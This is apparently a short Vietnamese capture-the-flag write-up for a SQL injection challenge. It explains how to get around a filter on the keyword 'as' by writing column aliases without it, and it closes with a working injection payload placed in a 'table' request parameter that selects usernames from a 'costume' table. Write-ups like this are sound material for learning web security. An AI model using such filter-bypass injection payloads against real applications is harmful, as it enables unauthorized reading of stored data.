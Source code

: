 # Solution

Bài này chủ yếu dùng alias để giải mặc dù vì bị filter `as` nhưng ta có thể `select blabla <alias name>`

Sẽ trả về

|`alias name` |
| ----------- |
| blabla      |
| ....        |
| blabla      |


Final payload

```
user_id=100&table=(select 100 id, enemy username from costume where id like 1)&submit=Submit
```